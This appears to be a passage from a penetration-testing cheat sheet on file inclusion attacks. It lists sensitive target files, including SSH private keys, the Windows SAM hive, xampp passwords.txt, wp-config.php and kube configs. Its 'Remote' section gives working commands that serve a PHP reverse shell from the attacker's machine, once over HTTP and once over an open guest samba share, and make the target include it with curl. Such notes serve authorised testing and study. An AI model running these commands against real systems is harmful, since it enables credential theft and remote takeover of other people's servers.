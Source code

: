 === "Windows"

    - `C:\Users\<user>\.ssh\id_rsa`
    - `C:\Windows\System32\drivers\etc\hosts`
    - `C:\boot.ini`
    - `C:\Windows\win.ini`
    - `C:\Windows\System32\config\SAM`
    - `C:\inetpub\wwwroot\`
    - `C:\Windows\php.ini`
    - `C:\inetpub\wwwroot\web.config`
    - `C:\xampp\passwords.txt`
    - `C:\xampp\apache\bin\php.ini`
    - `C:\xampp\apache\logs\access.log`
    - `C:\xampp\apache\logs\error.log`
    - `C:\xampp\apache\conf\httpd.conf`
    - `C:\xampp\filezillaftp\filezilla server.xml`
    - `C:\xampp\filezillaftp\logs`
    - `C:\xampp\filezillaftp\logs\access.log`
    - `C:\xampp\filezillaftp\logs\error.log`
    - `C:\xampp\mysql\data\mysql.err`
    - `C:\xampp\phpmyadmin\config.inc`
    - `C:\xampp\phpmyadmin\config.inc.php`
    - `C:\xampp\phpmyadmin\phpinfo.php`

=== "Platform Independent"

    - `wp-config.php` (WordPress) - *check web root*
    - `.git/config` - *check web root or user directories*
    - `~/.kube/config` - *user home directory*
    - `~/.my.cnf` - *user home directory*

### Remote

```shell
# serve a PHP reverse shell and execute it remotely
python3 -m http.server 80
curl http://<url>/index.php?page=http://<local_ip>/shell.php

# create a samba share with a reverse shell
service smbd start   
# important to create the share outside user homes
cd /srv
mkdir share
cd share
sudo net usershare add test (pwd) '' 'Everyone:F' guest_ok=y

curl http://<url>/blog/?lang=\\<local_ip>\test\reverse.php
```

## File Upload

> [PayloadsAllTheThings > File Upload](https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/)
